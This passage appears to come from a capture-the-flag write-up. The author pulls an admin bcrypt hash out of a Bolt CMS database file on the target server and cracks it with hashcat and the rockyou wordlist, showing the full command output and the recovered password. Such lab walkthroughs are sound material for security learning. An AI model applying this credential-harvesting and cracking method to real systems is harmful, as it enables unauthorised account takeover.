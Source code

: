 Enumerating files system I found a database file `/var/www/html/bolt/app/database/bolt.db` with login hash in it (bcrypt)
```
admin$2y$10$e.ChUytg9SrL7AsboF2bX.wWKQ1LkS5Fi3/Z0yYD86.P5E9cpY7PK
```

### Using hashcat to decrypt password
```
➜ hashcat -m 3200 hash /seclists/Passwords/Leaked-Databases/rockyou.txt                
hashcat (v5.1.0) starting...                                                                  
                                                                                              
OpenCL Platform #1: Intel(R) Corporation
========================================
* Device #1: Intel(R) Core(TM) i5-4440 CPU @ 3.10GHz, 1974/7899 MB allocatable, 4MCU

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Single-Hash
* Single-Salt

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72 

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Dictionary cache hit:
* Filename..: /seclists/Passwords/Leaked-Databases/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497 
* Keyspace..: 14344384

$2y$10$e.ChUytg9SrL7AsboF2bX.wWKQ1LkS5Fi3/Z0yYD86.P5E9cpY7PK:strawberry
                                                  
Session..........: hashcat
Status...........: Cracked
Hash.Type........: bcrypt $2*$, Blowfish (Unix) 
Hash.Target......: $2y$10$e.ChUytg9SrL7AsboF2bX.wWKQ1LkS5Fi3/Z0yYD86.P...cpY7PK
Time.Started.....: Sun Oct 27 21:09:51 2019 (10 secs)
Time.Estimated...: Sun Oct 27 21:10:01 2019 (0 secs)
Guess.Base.......: File (/seclists/Passwords/Leaked-Databases/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       54 H/s (9.23ms) @ Accel:8 Loops:2 Thr:8 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 512/14344384 (0.00%)
Rejected.........: 0/512 (0.00%)
Restore.Point....: 256/14344384 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:1022-1024
Candidates.#1....: angelo -> letmein

```
